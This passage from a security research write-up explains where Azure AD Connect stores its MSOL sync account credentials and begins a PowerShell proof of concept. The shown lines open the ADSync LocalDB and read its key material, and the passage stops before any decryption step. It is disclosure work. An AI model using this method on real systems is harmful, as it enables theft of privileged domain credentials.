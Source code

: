 The database supports the Azure AD Sync service by storing metadata and configuration data for the service. Searching we can see a table named `mms_management_agent` which contains a number of fields including `private_configuration_xml`. The XML within this field holds details regarding the `MSOL` user:

![image-16.png](../_resources/cae2a63f23a1ac196891aa23dde63d63.png)

As you will see however, the password is omitted from the XML returned. The encrypted password is actually stored within another field, `encrypted_configuration`. Looking through the handling of this encrypted data within the connector service, we see a number of references to an assembly of `C:\Program Files\Microsoft Azure AD Sync\Binn\mcrypt.dll` which is responsible for key management and the decryption of this data:

![image-29.png](../_resources/2d4ac2fca965234809f2d71df28d8fc6.png)

To decrypt the `encrypted_configuration` value I created a quick POC which will retrieve the keying material from the LocalDB instance before passing it to the `mcrypt.dll` assembly to decrypt:

|     |     |
| --- | --- |
| 1   | Write-Host  "AD Connect Sync Credential Extract POC (@_xpn_)`n" |
| 2   |     |
| 3   | $client  =  new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync" |
| 4   | $client.Open() |
| 5   | $cmd  =  $client.CreateCommand() |
| 6   | $cmd.CommandText  =  "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" |
| 7   | $reader  =  $cmd.ExecuteReader() |
| 8   | $reader.Read() \|  Out-Null |